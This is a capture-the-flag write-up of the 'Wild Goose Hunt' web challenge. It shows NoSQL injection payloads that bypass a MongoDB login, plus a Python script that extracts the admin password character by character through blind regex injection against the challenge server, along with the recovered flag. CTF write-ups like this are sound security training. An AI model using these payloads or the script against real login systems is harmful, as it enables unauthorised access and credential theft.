 # Wild Goose Hunt

Challenge text:
```
Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?
```
Along with the [source code](web_wild_goose_hunt).

The website was a login system, and as we see in the source code, it uses MongoDB. Since I didn't see anything else special, I assumed we had to do [NoSQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection). 

I tried sending in one of the examples from PayloadsAllTheThings;
```json
{
    "username": {
        "$ne": null
    },
    "password": {
        "$ne": null
    }
}
```
And the server returned
```json
{
    "logged": 1,
    "message": "Login Successful, welcome back admin."
}
```
which confirmed that it was vulnerable to NoSQLI.

As I do not believe there was a way to get any output, I assumed it was blind NoSQLI. Further down on PayloadsAllTheThings I found a nice payload for this purpose. 
```json
{
    "username": {
        "$eq": "admin"
    },
    "password": {
        "$regex": ""
    }
}
```
This will log us in if the password regex matches, and fail if it doesn't. If the password for example matches the regex `^a`, we know it starts with `a`, we can then move onto the next character, and try all combinations, until we have the flag. To do this I wrote a Python script.

```py
import re
import requests

final = ""

for x in range(len(final), 100): 
    for y in range(0x20, 0x80): # for every x position, try the character y (0x20 - 0x7e are the "characters" in the ASCII table)
        if y == 0x7f:
            print("done!")
            __import__("sys").exit()
        
        y = chr(y)

        sqli = {
            "username": {"$eq": "admin"},
            "password": {"$regex": f"^{re.escape(final+y)}" } # we send in what we know of the current password + a 1 character guess
        }
        res = requests.post("http://138.68.177.159:31116/api/login", json=sqli).text 

        if "Login Failed" not in res: # if we successfully log in, we know the next character in the password
            final += y
            break
    print(final)
```
By letting this run for a little while, we can slowly extract the flag.
```
...

CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0n
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
```